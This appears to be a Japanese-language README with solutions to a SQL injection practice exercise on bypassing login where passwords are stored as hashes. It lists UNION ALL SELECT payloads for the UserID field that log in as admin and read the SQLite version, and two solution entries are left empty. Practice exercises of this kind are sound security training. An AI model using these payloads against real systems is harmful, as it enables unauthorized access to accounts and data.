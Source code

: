 # try_SQL_inj

## パスワードがハッシュ値で保存されているサイトのSQLインジェクションによる認証回避の練習問題

- [問題文](https://qiita.com/ockeghem/items/787f74801a24e1fc6960)
- [password_verify](https://www.php.net/manual/ja/function.password-verify.php)
- [3. Literal Values(Constants)](https://www.sqlite.org/lang_expr.html)

### 練習問題
- UserID: `' UNION ALL SELECT id, 'admin', password, email FROM users WHERE userid = 'alice`

### ソースコードの内容に依存しない解法

- UserID: ``

### SQLiteのバージョン

- UserID: `' UNION ALL SELECT id, sqlite_version(), password, email FROM users WHERE userid = 'alice`

### テーブル情報

- UserID: ``
